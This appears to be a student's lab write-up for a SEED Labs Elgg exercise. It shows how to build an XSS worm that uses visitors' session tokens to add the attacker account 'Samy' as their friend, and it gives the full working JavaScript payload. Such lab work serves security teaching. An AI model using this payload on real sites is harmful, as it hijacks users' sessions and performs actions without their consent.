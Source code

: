 ## Task 4

In this last task, we want to write an XSS worm that automatically adds user "Samy" as a friend to any user that visits his page.

We can do something similar to the other tasks and embed a JavaScript program in Samy's profile. However, this code must make any user who visits the page send the appropriate request to add Samy as a friend.

In order to find how to write this request, we can, while logged in as Samy, inspect the "Add Friend" button on another user's page:

<figure align="center">
  <img src="images/week10/fig13.png"/>
  <figcaption>Figure 13. "Add friend" button inspection.</figcaption>
</figure>

By inspecting the button element, we can see that a request is sent to the URL `http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1641939671&__elgg_token=OvXl8SQ39WUqvGa_Auct7A`, with the `friend` parameter being the ID of the user to be added and the following parameters being tokens for user authentication.

We could find Samy's ID by inspecting the "Members" page. In the member list of this page, the list elements contained the IDs of every member in the list, including Samy, which was 59.

<figure align="center">
  <img src="images/week10/fig14.png"/>
  <figcaption>Figure 14. Members list inspection with Samy's ID.</figcaption>
</figure>

With this information, we can create a request that will add Samy as a friend when executed in a script on other users' browsers. This request has the following URL:
`http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=user_ts&__elgg_token=user_token`, with the fields `__elgg_ts` and `__elgg_token` being generated in the script, according to the user's current token.

So the final script should be the following:

```javascript
window.onload = function () {
	var Ajax = null;
	var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
	var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

	var sendurl =
		"http://www.seed-server.com/action/friends/add?friend=59" + ts + token;

	Ajax = new XMLHttpRequest();
	Ajax.open("GET", sendurl, true);
	Ajax.send();
};
```
